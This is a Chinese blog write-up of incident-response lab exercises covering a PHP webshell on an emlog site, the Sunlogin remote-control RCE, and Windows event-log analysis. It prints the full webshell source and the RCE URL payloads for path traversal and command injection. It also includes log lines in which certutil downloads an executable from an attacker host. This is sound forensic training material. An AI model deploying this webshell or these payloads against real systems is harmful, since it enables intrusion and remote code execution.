+++
title = "玄机第四章"
slug = "xuanji-chapter-4"
description = "刷"
date = "2025-04-07T17:56:28"
lastmod = "2025-04-07T17:56:28"
image = ""
license = ""
categories = [""]
tags = ["应急响应", "日志分析"]
+++

闲着没有事，做做玄机吧

## 第四章 windows实战-emlog

首先看到步骤说什么RDP啥啥的，我连RDP是什么都不知道，一搜原来是远程桌面链接啊，这个我知道，那直接在搜索框里面`远程桌面`，第一个就是打开之后可以进行靶机的链接

### flag1

进来之后发现有个phpstudy，这个是可以起网站的，我们直接把www目录打包带走，然后放D盾里面梭哈一下，本来想偷懒的，因为看到有一个www.zip了，但是后来试了之后发现还是要自己拖出来，不能用他有的压缩文件

`\WWW\WWW\content\plugins\tips\shell.php`

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

`flag{rebeyond}`

### flag2

寻找攻击成功的IP，直接查看日志，寻找`shell.php`



找到IP，`flag{192.168.126.1}`

### flag3



`flag{hacker138}`

### flag4

在黑客用户的桌面发现了`Kuang`文件，搞出来之后发现是个exe文件，肯定是看不了的，先下载一个工具，[pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)下载好了之后，把文件放在同一目录下，运行`python pyinstxtractor.py Kuang.exe`，找到一个`Kuang.pyc`，放到010搜索就可以了



`flag{wakuang.zhigongshanfang.top}`，但是为什么这是PY编译的文件呢，原因很简单，

首先查看文件头是不是`MZ`，然后进行第二步

1. **搜索 `PyInstaller`**
   - 按 `Ctrl+F` → 选择 **文本搜索** → 输入 `PyInstaller`
   - 如果找到，说明是 PyInstaller 打包的。
2. **搜索 `PYZ`（PyInstaller 的压缩包标记）**
   - 同样搜索 `PYZ`，如果能找到，说明是 Python 打包的。
3. **搜索 `python` 或 `.pyc`**
   - 搜索 `python` 或 `.pyc`，可能会发现 Python 运行时相关字符串。

## 第四章 windows实战-向日葵

向日葵一个远程的软件，还是本地RDP，我们首先查查向日葵的RCE知道是可以进行

目录遍历攻击：尝试访问和下载敏感文件。

```
/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en
```


命令注入攻击：通过 URL 参数执行系统命令。

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+whoami
```

### flag1

那就很好在日志里面找了，日志我们从最早的开始看，当然找不到就要接着找



并且可以看到确实是利用的这个RCE



直接找执行命令whoami，找到是`2024-03-26 10:16:25.585`，包起来就好了

### flag2

找IP，就在同一行`flag{192.168.31.45}`

### flag3

同一个日志里面找了找

```
2024-03-26 10:31:07.576	- Info  -	[service][TcpAcceptor] new acceptor 192.168.31.45:49329-->192.168.31.114:49724
2024-03-26 10:31:07.576	- Info  -	[Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49329, path: /check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmain.exe, version: HTTP/1.1
2024-03-26 10:31:07.576	- Info  -	[Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49329,/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmain.exe, plugin:check, session:sobGzXzWBfSlSbdqnmkUbJMLEjhssRx1
```

看着像是利用powershell进行反弹shell，直接交`flag{192.168.31.249}`

### flag4

找到这个

```
2024-03-26 10:39:11.031	- Info  -	[Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49884, path: /check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+echo+647224830+%3E+qq.txt, version: HTTP/1.1
2024-03-26 10:39:11.031	- Info  -	[Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49884,/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+echo+647224830+%3E+qq.txt, plugin:check, session:ciiHpsOHS1UtC5ZfZMrA1gApw9htv8ph
```

加QQ群得到文件，进行md5提交即可，Windows命令是` certutil -hashfile .\DEC.pem MD5`，Linux是`md5sum DEC.pem`，得到`flag{5ad8d202f80202f6d31e077fc9b0fc6b}`

### flag5

桌面加密文件内容如下

```
onEDpnamFbekYxixEQ30W6ZcEXjCUrKHP+APxzuJQZD8bS+4V5Tu+7XmxT24EuNSfoGnda+obAmy2d1E2WT/0MmT4VHNIUyX15JuOcd477c7Zj5v3qtzoJk8Rmtub9RL0vDDjwYKPzyS4wxSyqhRfggenLiSFxhrY32nnf42W30=

Your files have been encrypted

X6cNmnKCuxdTl+f5XLhmYY4oFovJGebCmpP94be/VVqNQe0cLJm3RtX84MO98b8fI0zY50xC4OjK5aHOz2zFxCvxHygFR+rIgL0XC2rruzCAukTLJqjjbNRH06alTMMdrxhRVdrC73PMBQBweyProof4ZYNZ4YHnZrej6Vq/Ipr2xeUqamHkysjFPNqA8DVDuXYYlTUuDzZdPZpWM3IDbUDMNi4ilrPEe47IXAxd8nrqTHgX+3X7YiOjuayqK8li2c2xMXoXuSce+rAeNsWHv9SUEqUTP+MJHll7MGYLZSvYpkCVacP3joKJoI/bfoVRX8FlCuCMkicFnTawY0ZxKiX7f+0Wv+KYP0st5SYjWhMWklNSEEG7TH24wZeCANjf
```

```
N2xTZ2Bsn2Y5lve7KZ36bgsFjqncBs55VO0zkeEIr5Iga/kbegA0BAstotBWnZ16+trNfkzl3apUobodMkC8covEo22p+kWAyVjMRyJ98EQ4Pspr/Y5HIuH0xuvPa82j7b0AMJHkyd2viuymI/mrxjJk2X0xlEE4YVioMLd22+w=

Your files have been encrypted

0sWK8adKSGh1Xaxo6n1mZFoyNDYVokXwkBhxnzxU+MEJIV44u48SdOiFzWLn849hObaP6z26lLtMnXaDUnAPuMh+nF2hw9RoAsur7KYxE8/iY/y4jOEBsHT5wvQldcNfntrDyMUCvrWTUHl2yapUmaIIf2rZsNsqMVJ9puZzp58+FJmulyC7R1C2yoP1jHhsdOkU7htbzUWWsm2ybL+eVpXTFC+i6nuEBoAYhv2kjSgL8qKBFsLKmKQSn/ILRPaRYDFP/srEQzF7Y4yZa4cotpFTdGUVU547Eib/EaNuhTyzgOGKjXl2UYxHM/v0c3lgjO7GDA9eF3a/BBXPAgtK126lUfoGK7iSAhduRt5sRP4=
```

还有上一题的`DEC.pem`

```
-----BEGIN RSA Private key-----
MIICXQIBAAKBgQDWQqpkHRKtRu66MjTrNZC13A6rIlGaJBd/FYBy4ifiITasCnQE
J9aRTIYQsM5iincecnvY8xGYMg5pVTp6P4fxS4/+1bAEciRXSTCmLI8FeDd3sjOc
HTw82sG0hfnnb0b/LFhbOCk7BgLnpwvSy5za/dtVQFSDbQbQuTBp029AKwIDAQAB
AoGBAKh6952NtvgGhQZpIG+sSUSX6/jqHZzFsKw/7idoatBIKcOS3LO/19udfvZ0
8XVPSGfqwjRQvo8dHXP6juc+Odg1XOLPw4fjjJz9b9dLKCKwtIU3CwA1AmuhYNGp
1OXlHLyUaNVTN3TZN9Dn7txD4gOvLIirqbmhzy/N7PdPF5ThAkEA4MB++5DSY7Kv
MO1uHuxTr/jRy6754Mzgo0fpLBXSB13/nLMxRA6QEbigoAFpsFd36EYMKzftbezB
gx2nphvLUwJBAPQMv730MqCWjaCPLgYRV+oMU6OnOMs6+ALql+I1eVqVfBAt+5De
HMxY7mWdaR9pofzuz+6KkmwRHqKSVw45dMkCQFJ68l76B+vkoFxxVe9tRU0YIE4C
mdtA9NOXSWAPZfOkMHFeZZ8XRRHr0q7FtfasMuoAAuk9bhngQCgREvxnyNcCQGnt
trQecHMfpe2Q+CsOEBi4rP0VsiMUP14UsUQwbbIRvD3Rl6WzotBXsXJNtrk5wmPk
zD//ybo6XA+4cSztZ3ECQQC92ck1XJm7V12SOFqHcNXFoS8tFvgNQXNEahmhJ2wb
xTo0VwUhCeG1n8X5PqRn6Rcsh8YQAt924YrWtcTxrg8g
-----END RSA Private key-----
```

所以应该是RSA加AES进行在线解密，用在线网站[RSA](https://try8.cn/tool/cipher/rsa) [AES](https://the-x.cn/cryptography/Aes.aspx)





这里不是很明白为什么来的，就当个了解吧

## 第四章-windows日志分析

首先来peterpan的博客进行信息收集看看有没有什么值得的知识

**安全日志相关事件 ID**：

- **4624** - 成功的账户登录事件
   记录登录的账号、时间、来源 IP 等信息，可帮助识别是否有非法登录。
- **4625** - 账户登录失败事件
   记录未能登录的尝试，帮助检测密码爆破或非法访问。
- **4634** - 用户注销事件
   记录用户主动注销，或超时后系统自动注销。
- **4648**- 用户显示凭据登陆

- **4672** - 特权账户登录事件
   当管理员或特权账号登录时，记录该事件，检测高权限用户的使用情况。
- **4688** - 新进程创建事件
   记录进程的创建信息，能帮助检测恶意软件的执行情况。
- **4697** - 系统上安装服务的事件
   记录系统中安装的服务，可以检测未经授权的服务安装。
- **4768** - Kerberos 认证票据授予（TGT）事件
   与域控制器的身份验证有关，可以帮助分析域账号是否被滥用。
- **4776** - NTLM 认证失败事件
   在 NTLM 认证失败时记录，可以帮助检测异常的身份验证行为。
- **4719** - 审计策略更改事件
   系统审计策略的更改，能帮助判断是否有恶意用户试图掩盖痕迹。

**系统日志相关事件 ID：**

- **6005** - 事件日志服务启动
   表示系统启动了事件日志服务，通常用于分析系统启动。
- **6006** - 事件日志服务停止
   表示系统即将关机，通常配合其他日志判断系统是否被异常关机。
- **6008** - 非正常关机事件
   系统意外关闭时记录，用于检测系统崩溃或强制关机。
- **7045** - 服务安装事件
   记录系统中安装的新服务，通常用于分析是否有恶意服务被安装。

**应用程序日志相关事件 ID**：

- **1000** - 应用程序崩溃事件
   记录应用程序崩溃的详细信息，包括错误代码和故障模块名称。
- **4621** - 应用程序挂起事件
   用于分析应用程序无响应、卡死的原因。

### flag1

日志分析，这我在行啊(bushi)，进入靶机先把日志dump下来，放到服务器进行命令查询

```
awk '{print $1}' access.log | sort | uniq -c | sort -nr
```

得到以下信息

```
   6331 192.168.150.67
    524 192.168.150.1
    169 127.0.0.1
     54 192.168.150.33
      1 192.168.150.60
```

首先`127.0.0.1`排除，看日志发现`192.168.150.67`在进行目录遍历，`192.168.150.1`都是正常的200请求，`192.168.150.33`传的一些东西看着像是pickle反序列化，找不出来另外一个请求，再写个命令找找

```
awk '$1 == "192.168.150.60" {print $0}' access.log
```

是个400请求，应该没问题，得到`flag{6385}`

### flag2

我们使用事件查看器来解决这个问题，可以`win+R`然后输入`eventvwr.msc`，也可以在搜索框里面搜索**事件查看器**，windows日志->安全->筛选当前日志



筛选**4625**事件看到有2594次，得到`flag{2594}`

### flag3

还是用这个东西，筛选4624事件，发现有202次，但是我们要的是IP需要，查看事件详细信息可以知道IP



因为确实不多，所以我一直在丁真，找出几个个IP得到

````
192.168.150.128
192.168.150.33
192.168.150.1
192.168.150.178
171.218.191.99
````

但是实在是太难找了，于是我在想还有没有什么更方便的方法，筛选**4648**可以知道

````
171.218.191.99
192.168.150.1
192.168.150.178
192.168.150.128
````

想一起交了的，但是发现不对，看到有一个网段是不一样的，于是我把那个去掉了，发现就对了`flag{192.168.150.1&192.168.150.128&192.168.150.178}`

### flag4

`win+R`打开`lusrmgr.msc`，可以打开本地用户组



找到`flag{hacker$}`

### flag5

不知道影子账号是什么，但是很明显啊`flag{hackers$}`

### flag6

要找shell程序，我们可以先看看端口

```
netstat -ano
```

但是没发现，搜索框**计划任务**，发现有个每天都运行的任务

